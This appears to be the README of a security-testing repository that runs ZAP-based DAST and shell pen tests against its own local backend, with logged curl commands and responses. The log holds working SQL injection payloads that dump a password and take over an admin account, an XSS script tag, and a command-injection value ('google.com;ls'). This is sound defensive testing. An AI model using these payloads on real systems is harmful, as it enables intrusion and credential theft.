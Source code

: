 # security-automated-tests

Automated Dynamic Application Security Tests (DAST)

##### Table of Contents  
[1. testing-stack](#testing-stack)<br />
[2. test-repo-dependencies](#repo-deps)<br />
[3. test-run-setup](#test-run)<br />
[4. docker-test-run-setup](#docker-test-run)<br />
[5. security-test-observations](./docs/security_test_observations.md)<br />
[6. penetration-test-results-doc](./docs/pen_test_results.txt)<br />
[7. penetration-test-results-explanation](#test-results)<br />
[8. security-test-results-screenshots](#test-results-screenshots)<br />

<a name="testing-stack"></a>  

## 1. Testing stack

- **zap proxy** - zap proxy runner setup for dynamic application security test (DAST) automation      
- **python + javascript nashorn engine** - zap hooks and zap script extensions  
- **shell** - penetration test scripting 
- **docker** - docker for running dast tests

<a name="repo-deps"></a>

## 2. Test repo dependencies  
> **Note**   
> Need to run this step to install steps once for every new repo level dependencies added/updated   
```shell
source install.sh
```

> **Note**  
> docker and colima oci are optional replacement stack to avoid zap installation in local machine

<a name="test-run"></a>   

## 3. Test run setup  
> **Info** 
> Start Backend Server before running pen-tests
```bash
cd backend # from root folder 
pip install -r requirments.txt
source start-server.sh
``` 

> **Info**
> Script to run automated dynamic application security tests
> **Warning**  
> Script will create an auth token using admin credentials
> In actual test setup the username and password should read from envrionment variables
```shell
cd tests/security-tests # from root folder
source run_dast_tests.sh
```

> **Info**
> Script to run actual penetration tests specific to this backend implementation
```shell
source pen_tests.sh > pen_test_results.txt
```
<a name="test-run"></a>   

## 4. Docker Test run setup  
> **Info** 
> Start Backend Server before running pen-tests
```bash
docker buildx build --platform=linux/amd64 -t backend:v1  -f backend/Dockerfile . # from root folder
docker create network zap
 docker run --platform=linux/amd64 --network=zap -e TASK_NAME=task_with_swagger.py --name backend --rm -t backend:v1 
``` 

> **Info**
> Script to run automated dynamic application security tests
> **Warning**  
> Script will create an auth token using admin credentials
> In actual test setup the username and password should read from envrionment variables
```shell
cd tests/security-tests # from root folder
export CI=true # docker setup expected to be run in ci mode as the same steps will be executed in github actions
source run_dast_tests.sh
```

> **Info**
> Script to run actual penetration tests specific to this backend implementation
```shell
cd tests/security-tests # from root folder
mkdir -p test-results
export CI=true # docker setup expected to be run in ci mode as the same steps will be executed in github actions
source pen_tests_swagger.sh > test-results/pen_test_results_swagger.txt
```

<a name="test-results"></a> 

### Pen Test commands with results
```bash
------------------------------------------------
------------------------------------------------

------------------------------------------------
------------------------------------------------

Testing SQL Injection by passing default data validation to access the registration endpoint

curl -X POST http://localhost:5500/client_registeration -d 'fullName=newJohnDoe23186&userName=newjohndoe22521&password=password&phone=1234567890&email=newnoname18464@maildrop.cc" OR "1"="1'

{"msg": "User Registered"}
------------------------------------------------
------------------------------------------------

Testing SQL Injection by passing default data validation to access the login endpoint

curl -X POST http://localhost:5500/client_login -d 'userName=spammer&email=spam@email.com"OR 1=1;--&password=pwd'

{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6InNwYW1tZXIiLCJlbWFpbCI6InNwYW1AZW1haWwuY29tXCJPUiAxPTE7LS0iLCJyb2xlIjoxfQ.SfASxL9cTm8uSE0yTC7Wx3ilRmNLRQWOcAGdwXrk5Cs"}
------------------------------------------------
------------------------------------------------

Testing SQL Injection to retrieve account details

curl -X POST http://localhost:5500/client_login -d 'userName=spammer&email=spam@email.com" union select password || ":" || email from users;--&password=pwd'

{
  "userName": "spammer",
  "email": "spam@email.com\" union select password || \":\" || email from users;--",
  "role": "admin@1234:admin@test.com"
}
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6InNwYW1tZXIiLCJlbWFpbCI6InNwYW1AZW1haWwuY29tXCIgdW5pb24gc2VsZWN0IHBhc3N3b3JkIHx8IFwiOlwiIHx8IGVtYWlsIGZyb20gdXNlcnM7LS0iLCJyb2xlIjoiYWRtaW5AMTIzNDphZG1pbkB0ZXN0LmNvbSJ9.Ket7bPwysNf0cmO2YJmg_ZuIyRabd6Byu9ROUq9vnCA
------------------------------------------------
------------------------------------------------

Testing Resetting the password of the retrieved account

curl -X POST http://localhost:5500/update_info -d "token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyTmFtZSI6InNwYW1tZXIiLCJlbWFpbCI6InNwYW1AZW1haWwuY29tXCIgdW5pb24gc2VsZWN0IHBhc3N3b3JkIHx8IFwiOlwiIHx8IGVtYWlsIGZyb20gdXNlcnM7LS0iLCJyb2xlIjoiYWRtaW5AMTIzNDphZG1pbkB0ZXN0LmNvbSJ9.Ket7bPwysNf0cmO2YJmg_ZuIyRabd6Byu9ROUq9vnCA&currentPassword=admin@1234&newPassword=newpass"

{"msg":"Password Reset"}
------------------------------------------------
------------------------------------------------

Testing Input Validation

curl -X POST http://localhost:5500/client_registeration -d 'fullName=<script>alert(XSS)</script>&userName=testuser&email=test@example.com&password=test&phone=1234567890'

{"msg":"User Registered"}
------------------------------------------------
------------------------------------------------

Testing Insecure Use of Ping

curl -X GET http://localhost:5500/products -d 'source=google.com;ls'

{"products":[{"id":1,"title":"Essence Mascara Lash Princess","description":"The Essence Mascara Lash Princess is a popular mascara known for its volumizing and lengthening effects. Achieve dramatic lashes with this long-lasting and cruelty-free formula.","category":"beauty","price":9.99,"discountPercentage":7.17,"rating":4.94,"stock":5,"tags":["beauty","mascara"],"brand":"Essence","sku":"RCH45Q1A","weight":2,"dimensions":{"width":23.17,"height":14.43,"depth":28.01},"warrantyInformation":"1 month warranty","shippingInformation":"Ships in 1 month","availabilityStatus":"Low Stock","reviews":[{"rating":2,"comment":"Very unhappy with my purchase!","date":"2024-05-23T08:56:21.618Z","reviewerName":"John Doe","reviewerEmail":"john.doe@x.dummyjson.com"},{"rating":2,"comment":"Not as described!","date":"2024-05-23T08:56:21.618Z","reviewerName":"Nolan Gonzalez","reviewerEmail":"nolan.gonzalez@x.dummyjson.com"},{"rating":5,"comment":"Very satisfied!","date":"2024-05-23T08:56:21.618Z","reviewerName":"Scarlett Wright","reviewerEmail":"scarlett.wright@x.dummyjson.com"}],"returnPolicy":"30 days return policy","minimumOrderQuantity":24,"meta":{"createdAt":"2024-05-23T08:56:21.618Z","updatedAt":"2024-05-23T08:56:21.618Z","barcode":"9164035109868","qrCode":"https:\/\/assets.dummyjson.com\/public\/qr-code.png"},"images":["https:\/\/cdn.dummyjson.com\/products\/images\/beauty\/Essence%20Mascara%20Lash%20Princess\/1.png"],"thumbnail":"https:\/\/cdn.dummyjson.com\/products\/images\/beauty\/Essence%20Mascara%20Lash%20Princess\/thumbnail.png"}],"total":194,"skip":0,"limit":30}
------------------------------------------------
------------------------------------------------
Testing Weak Error Message

curl -X POST http://localhost:5500/client_login -d 'email=nonexistent@example.com&password=wrongpassword'

{"message":"The browser (or proxy) sent a request that this server could not understand."}


-------------------------------------
------------------------------------

```   



<a name="test-results-screenshots"></a> 

[1.security-tests-report-summary](./docs/dast_report_summary.png)<br /><br />
[2.security-tests-report-sql-injection](./docs/dast_report_sql_injection.png)<br /><br />
[3.security-tests-full-report](./docs/dast_full_report.png)<br /><br />
